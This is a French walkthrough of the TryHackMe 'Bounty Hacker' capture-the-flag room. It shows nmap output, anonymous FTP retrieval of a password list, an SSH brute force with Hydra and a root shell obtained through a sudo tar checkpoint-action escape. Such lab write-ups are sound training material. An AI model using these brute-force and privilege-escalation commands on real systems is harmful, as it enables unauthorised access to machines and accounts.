 ```yaml
---
title: Bounty Hacker
tags: [TryHackMe, Facile, Linux, FTP, Force brute]
style: border
color: thm
comments: false
description: Exploitation d'un serveur web Apache
---
```

Lien vers l'épreuve : <https://tryhackme.com/room/cowboyhacker>

![Logo box](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du serveur {% include dictionary.html word="FTP" %}](#analyse-du-serveur--include-dictionaryhtml-wordftp-)
* [Accéder à la machine](#accéder-à-la-machine)
* [Élévation de privilèges](#élévation-de-privilèges)

## Reconnaissance

```bash
nmap -A -T4 bountyhacker.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 15:58 CEST
Nmap scan report for bountyhacker.thm (10.10.35.165)
Host is up (0.032s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.2.99
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (89%), Linux 2.6.32 (88%), Infomir MAG-250 set-top box (88%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (88%), Linux 3.7 (88%), Linux 5.0 (88%), Linux 5.0 - 5.4 (88%), Linux 5.1 (88%), Ubiquiti AirOS 5.5.9 (88%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.80 ms 10.9.0.1
2   31.82 ms bountyhacker.thm (10.10.35.165)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.88 seconds
```

Le scan {% include dictionary.html word="NMAP" %} indique la présence d'un serveur {% include dictionary.html word="FTP" %} sur le port 21 accessible anonymement, un serveur {% include dictionary.html word="SSH" %} sur le port 22, et un serveur web Apache sur le port 80.

Le serveur web sert à raconter l'histoire de notre personnage qui semble avoir été quelque peu vantard face aux personnages de l'anime [Cowboy Bebop](https://fr.wikipedia.org/wiki/Cowboy_Bebop) et qu'il va devoir faire ses preuves.

## Analyse du serveur {% include dictionary.html word="FTP" %}

Nous récupérons les 2 documents présents sur le serveur :

```bash
ftp anonymous@bountyhacker.thm
Connected to bountyhacker.thm.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41895|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*******************************************|   418        5.86 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (3.98 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*******************************************|    68        0.65 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.49 KiB/s)
```

Le fichier `locks.txt` semble être une liste de mots de passe, et le fichier `task.txt` un plan d'action (machiavélique ?).

```terminal
cat task.txt                   
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

## Accéder à la machine

Le fichier `task.txt` contient le nom `lin` qui pourrait être un utilisateur du serveur. Nous allons tenter de trouver un mot de passe correspondant grâce à l'outil {% include dictionary.html word="Hydra" %} sur le service {% include dictionary.html word="SSH" %}.

```bash
hydra -l 'lin' -P locks.txt bountyhacker.thm ssh                        
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-19 16:27:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://bountyhacker.thm:22/
[22][ssh] host: bountyhacker.thm   login: lin   password: Re[...expurgé...]t3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-19 16:27:37
```

Nous obtenons le mot de passe de l'utilisateur `lin` nous permettant de nous connecter en {% include dictionary.html word="SSH" %} sur le serveur.

Dès que nous nous connectons à la machine avec les identifiants trouvés, nous arrivons sur le bureau de l'utilisateur, contenant le flag utilisateur :

```bash
ls
user.txt

cat user.txt
THM{[...expurgé...]}
```

## Élévation de privilèges

L'utilisateur `lin` est autorisé à utiliser la commande `/bin/tar` en élevant ses privilèges avec {% include dictionary.html word="sudo" %}.

```bash
sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Sur le site [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) nous trouvons le moyen d'abuser de ce privilège pour devenir `root` sur la machine.

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names

id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous sommes root, nous pouvons récupérer le flag root.

```bash
cd /root

ls
root.txt

cat root.txt
THM{[...expurgé...]}
```
